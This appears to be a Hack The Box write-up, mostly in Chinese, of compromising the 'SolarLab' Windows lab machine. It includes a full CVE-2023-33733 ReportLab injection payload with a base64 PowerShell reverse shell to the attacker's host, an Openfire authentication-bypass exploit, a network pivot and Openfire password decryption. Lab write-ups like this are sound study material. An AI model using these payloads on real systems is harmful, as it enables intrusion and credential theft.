

###### tags: `Hack the box` `HTB` `Medium` `Windows`

# SolarLab
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.113.123 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.113.123:80
Open 10.129.113.123:135
Open 10.129.113.123:139
Open 10.129.113.123:445
Open 10.129.113.123:6791
Open 10.129.113.123:7680

PORT     STATE SERVICE       REASON  VERSION
80/tcp   open  http          syn-ack nginx 1.24.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
6791/tcp open  http          syn-ack nginx 1.24.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
7680/tcp open  pando-pub?    syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

一樣把domain加入`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.113.123  solarlab.htb
10.129.113.123  report.solarlab.htb
```

smb可以匿名登入
```
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -N -L 10.129.113.123     

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Documents       Disk      
        IPC$            IPC       Remote IPC

┌──(kali㉿kali)-[~/htb]
└─$ smbclient -N //10.129.113.123/Documents
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Apr 26 10:47:14 2024
  ..                                 DR        0  Fri Apr 26 10:47:14 2024
  concepts                            D        0  Fri Apr 26 10:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 05:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 07:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 14:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 14:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 14:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 05:35:57 2023
  
smb: \> get details-file.xlsx
```

下載這個xlsx，裡面有一些帳號密碼


```
Username                            Password
Alexander.knight@gmail.com         al;ksdhfewoiuh
KAlexander                         dkjafblkjadsfgl
Alexander.knight@gmail.com         d398sadsknr390
blake.byte	                    ThisCanB3typedeasily1@
AlexanderK	                    danenacia9234n
ClaudiaS	                    dadsfawe9dafkn
```

拿來爆破`http://report.solarlab.htb:6791`的登入頁面發現沒有東西，參考一下規則新增幾個user
```
## users.txt
Alexander.knight
KAlexander
blake.byte
AlexanderK
ClaudiaS
BlakeB
BBlake

## password.txt
al;ksdhfewoiuh
dkjafblkjadsfgl
d398sadsknr390
ThisCanB3typedeasily1@
danenacia9234n
dadsfawe9dafkn
```



發現`BlakeB`跟`ThisCanB3typedeasily1@`可以登入，之後google搜尋[CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733)，在`http://report.solarlab.htb:6791/leaveRequest`這個頁面裡面先隨便key一些東西卡住之後，參考payload開nc看能不能塞reverse

```
POST /leaveRequest HTTP/1.1

Host: report.solarlab.htb:6791
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------27340162102935365011424145017
Content-Length: 20472
Origin: http://report.solarlab.htb:6791
Connection: keep-alive
Referer: http://report.solarlab.htb:6791/leaveRequest
Cookie: session=.eJwljjsOw0AIBe9CnQLWfBZfxjJrUNLacRXl7lkp0715zXxgqzOvJ6zv884HbK8DVoh9aC48GnM5YYjsncJHVsrwEUi1OLt1iXlL10RPw0NSbBIh3lpG2WLUVSPUHaf25hyszCqCJuqhDa2a78GEpKlzlxwwQ-4rz38NwfcHgZgttg.Ztgf_Q.zkRbMWvKj40jxuTGPVE0g8f1S3s
Upgrade-Insecure-Requests: 1

-----------------------------27340162102935365011424145017
Content-Disposition: form-data; name="time_interval"

2024-09-04 to 2024-09-04
-----------------------------27340162102935365011424145017
Content-Disposition: form-data; name="leave_request"

0912345678
-----------------------------27340162102935365011424145017
Content-Disposition: form-data; name="signature"; filename="snap.PNG"
Content-Type: image/png

‰PNG

....
```

做一個base64的reverse之後塞進來就可以得到shell，在`C:\USers\blake\Desktop`可得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444

POST /leaveRequest HTTP/1.1
Host: report.solarlab.htb:6791
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------12691413879980731484016265563
Content-Length: 22323
Origin: http://report.solarlab.htb:6791
Connection: keep-alive
Referer: http://report.solarlab.htb:6791/leaveRequest
Cookie: session=.eJwljjsOw0AIBe9CnQLWfBZfxjJrUNLacRXl7lkp0715zXxgqzOvJ6zv884HbK8DVoh9aC48GnM5YYjsncJHVsrwEUi1OLt1iXlL10RPw0NSbBIh3lpG2WLUVSPUHaf25hyszCqCJuqhDa2a78GEpKlzlxwwQ-4rz38NwfcHgZgttg.ZtghVA.l1AIMTmx6-lKeGYJIumdrWpYBmg
Upgrade-Insecure-Requests: 1

-----------------------------12691413879980731484016265563
Content-Disposition: form-data; name="time_interval"

2024-09-04 to 2024-09-04
----------------------------12691413879980731484016265563
Content-Disposition: form-data; name="leave_request"

<para>

              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANwAwACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">

                exploit

                </font>

            </para>

-----------------------------12691413879980731484016265563
Content-Disposition: form-data; name="signature"; filename="snap.PNG"
Content-Type: image/png

...
```

```
PS C:\USers\blake\Desktop> type user.txt
1954c263fa00adf7cd03d8744d199893
```

在User的資料夾裡面看到`openfire`，懷疑有`openfire`的服務，查看`netstat`
```
PS C:\Users\Public\Documents\concepts> Get-NetTCPConnection -State Listen

LocalAddress                        LocalPort RemoteAddress                       RemotePort State       AppliedSetting
------------                        --------- -------------                       ---------- -----       --------------
::                                  49668     ::                                  0          Listen                    
::                                  49667     ::                                  0          Listen                    
::                                  49666     ::                                  0          Listen                    
::                                  49665     ::                                  0          Listen                    
::                                  49664     ::                                  0          Listen                    
::                                  47001     ::                                  0          Listen                    
::                                  5985      ::                                  0          Listen                    
::                                  445       ::                                  0          Listen                    
::                                  135       ::                                  0          Listen                    
0.0.0.0                             49668     0.0.0.0                             0          Listen                    
0.0.0.0                             49667     0.0.0.0                             0          Listen                    
0.0.0.0                             49666     0.0.0.0                             0          Listen                    
0.0.0.0                             49665     0.0.0.0                             0          Listen                    
0.0.0.0                             49664     0.0.0.0                             0          Listen                    
127.0.0.1                           9091      0.0.0.0                             0          Listen                    
127.0.0.1                           9090      0.0.0.0                             0          Listen                    
127.0.0.1                           7443      0.0.0.0                             0          Listen                    
127.0.0.1                           7070      0.0.0.0                             0          Listen                    
0.0.0.0                             6791      0.0.0.0                             0          Listen                    
127.0.0.1                           5276      0.0.0.0                             0          Listen                    
127.0.0.1                           5275      0.0.0.0                             0          Listen                    
127.0.0.1                           5270      0.0.0.0                             0          Listen                    
127.0.0.1                           5269      0.0.0.0                             0          Listen                    
127.0.0.1                           5263      0.0.0.0                             0          Listen                    
127.0.0.1                           5262      0.0.0.0                             0          Listen                    
127.0.0.1                           5223      0.0.0.0                             0          Listen                    
127.0.0.1                           5222      0.0.0.0                             0          Listen                    
0.0.0.0                             5040      0.0.0.0                             0          Listen                    
127.0.0.1                           5000      0.0.0.0                             0          Listen                    
10.129.113.123                      139       0.0.0.0                             0          Listen                    
0.0.0.0                             135       0.0.0.0                             0          Listen                    
0.0.0.0                             80        0.0.0.0                             0          Listen
```

google搜尋`openfire exploit`也可以找到[CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)，說是`9090port`，就`ligolo`先開啟來看
```
┌──(kali㉿kali)-[~/ligolo-ng]
└─$ sudo ip tuntap add user kali mode tun ligolo

┌──(kali㉿kali)-[~/ligolo-ng]
└─$ sudo ip link set ligolo up

┌──(kali㉿kali)-[~/ligolo-ng]
└─$ ./proxy -selfcert

PS C:\Users\Public\Documents> iwr http://10.10.14.70/agent_w.exe -Outfile agent.exe

PS C:\Users\Public\Documents> ./agent -connect 10.10.14.70:11601 -ignore-cert

ligolo-ng » session
? Specify a session : 1 - #1 - SOLARLAB\blake@solarlab - 10.129.113.123:50939
[Agent : SOLARLAB\blake@solarlab] » start

┌──(kali㉿kali)-[~/htb]
└─$ sudo ip route add 240.0.0.1/32 dev ligolo
```

加完之後就可以在`http://240.0.0.1:9090`看到`openfire`的登入頁面，參考上面`CVE-2023-32315`的步驟，先新增一個帳號可以登入
```
┌──(kali㉿kali)-[~/htb/CVE-2023-32315]
└─$ python3 CVE-2023-32315.py -t http://240.0.0.1:9090     
                                                     
Openfire Console Authentication Bypass Vulnerability (CVE-2023-3215)
Use at your own risk!

[..] Checking target: http://240.0.0.1:9090
Successfully retrieved JSESSIONID: node01mjx8ftnjgkf11l5eql6q0bkt13.node0 + csrf: fAYrQYDKtC7R18E
User added successfully: url: http://240.0.0.1:9090 username: 7hhprr password: yfuzp7
```

之後登入按照他的步驟進來，輸入`123`之後把右上角切成`system command`，開啟nc之後輸入跟之前一樣`base64`的reverse


```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4445

powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANwAwACIALAA0ADQANAA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

成功之後可以看到自己是`openfire的user`，之後可以在`C:\Program Files\Openfire\embedded-db`找到一些key
```
PS C:\> whoami
solarlab\openfire

PS C:\Program Files\Openfire\embedded-db> type openfire.script
...
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')

...
VALUES('cache.MUCService''conference''Rooms.size','-1',0,NULL)
INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
INSERT INTO OFPROPERTY 

...
```

google搜尋[openfire_decrypt](https://github.com/c0rdis/openfire_decrypt?tab=readme-ov-file)然後用他
```
┌──(kali㉿kali)-[~/htb/openfire_decrypt]
└─$ javac OpenFireDecryptPass.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
                                                                                                                        
┌──(kali㉿kali)-[~/htb/openfire_decrypt]
└─$ java OpenFireDecryptPass becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
ThisPasswordShouldDo!@ (hex: 005400680069007300500061007300730077006F0072006400530068006F0075006C00640044006F00210040)
```

得到密碼`ThisPasswordShouldDo!@`之後用`administrator`登入後，可在`C:\Users\Administrator\Desktop`得root.txt

```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-psexec administrator@10.129.113.123
Password: ThisPasswordShouldDo!@

C:\Users\Administrator\Desktop> type root.txt
7ea926e1af3973b548b984b90def6109
```